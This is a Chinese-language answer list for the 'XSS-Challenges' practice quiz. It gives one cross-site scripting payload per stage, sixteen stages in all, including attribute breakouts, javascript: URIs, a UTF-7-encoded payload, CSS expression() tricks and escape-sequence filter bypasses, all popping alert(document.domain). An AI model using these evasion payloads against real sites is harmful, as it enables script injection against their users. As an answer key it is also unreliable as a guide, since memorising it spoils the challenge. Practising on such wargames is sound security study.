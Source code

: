 # XSS-Challenges
http://xss-quiz.int21h.jp/
全部在IE11浏览器上作答

1 \<img onclick="alert(document.domain);" src=\>

2 "\</b\>\<script\>alert(document.domain);\</script\>\<b\>"

4 把type为hidden的input的type改为text 然后在框内输入"><script>alert(document.domain)</script>

5 将input的maxlength改为150或者一个较大的数 然后在框内输入 "><script>alert(document.domain)</script>

6 " onclick = "alert(document.domain)"

7 " onclick = alert(document.domain)

8 javascript:alert(document.domain)

9 将charset的值改为utf-7 然后输入+ACIAIABvAG4AYwBsAGkAYwBrACAAPQAgACIAIABhAGwAZQByAHQAKABkAG8AYwB1AG0AZQBuAHQALgBkAG8AbQBhAGkAbgApAA0AC-

10 " onclick = "alert(document.domaidomainn)"

11 "\>\<a href="javascrip&#x9;t:alert(document.domain)"\>\<"xss\</a>

12 `` onclick = alert(document.domain)

13 aa:expression(if(!window.x){alert(document.domain);window.x=1})

14 aa:expre/**/ssion(if(!window.x){alert(document.domain);window.x=1})

15 \\x3Cscript\\x3Ealert(document.domain)\\x3C/script\\x3E

16 \\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e
